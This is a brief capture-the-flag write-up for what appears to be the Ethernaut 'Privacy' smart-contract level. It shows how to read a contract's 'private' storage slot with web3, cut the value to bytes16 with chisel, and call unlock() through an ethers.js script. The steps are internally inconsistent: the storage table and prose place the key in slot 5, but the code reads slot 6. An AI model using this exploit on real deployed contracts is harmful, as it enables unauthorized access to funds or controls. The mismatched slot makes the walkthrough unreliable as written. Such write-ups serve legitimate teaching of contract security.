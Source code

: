 ### Goals

Unlock the contract

### Exploit

We need to provide correct bytes16 to `unlock()` function.

STORAGE LAYOUT:

| variable   | size     | slot |
| ---------- | -------- | ---- |
| bool       | 1 byte   | 0    |
| uint256    | 32 bytes | 1    |
| uint8      | 1 byte   | 2    |
| uint8      | 1 byte   | 2    |
| uint16     | 2 bytes  | 2    |
| bytes32[0] | 32 bytes | 3    |
| bytes32[1] | 32 bytes | 4    |
| bytes32[2] | 32 bytes | 5    |

We will need to read contract storage to retrieve data. Looking at storage we can see that it occupies 6 slots. The variable that we are intersted in is at 5th.

### Code

Use Ethernaut console to get it:

```code
await web3.eth.getStorageAt(contract.address, 6);
'0x8ec73c0e7970bbe5d634a195f12b4b89ed2f3bfd4ba53fb1ac8eeda27fce63de'
```

Now using chisel (shipped along with Foundry) we can cast it to bytes16

```code
❯ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ bytes32 a = 0x8ec73c0e7970bbe5d634a195f12b4b89ed2f3bfd4ba53fb1ac8eeda27fce63de;
➜ bytes16(a)
Type: bytes16
└ Data: 0x8ec73c0e7970bbe5d634a195f12b4b8900000000000000000000000000000000
```

Create JS snippet

```code
import { ethers } from "ethers";

let provider = new ethers.JsonRpcProvider(
  "https://ethereum-sepolia.publicnode.com"
);

const signer = new ethers.Wallet(
  "PRIVATE_KEY",
  provider
);

const privacy = new ethers.Contract(
  "CONTRACT_ADDRESS",
  ["function unlock(bytes16) external"],
  signer
);

let key = "0x8ec73c0e7970bbe5d634a195f12b4b8900000000000000000000000000000000";
let tx = await privacy.unlock(key.substring(0, 34)); // 32 + 2 (as 0x)
await tx.wait();
console.log(`tx: ${tx.hash}`);
```

Done!
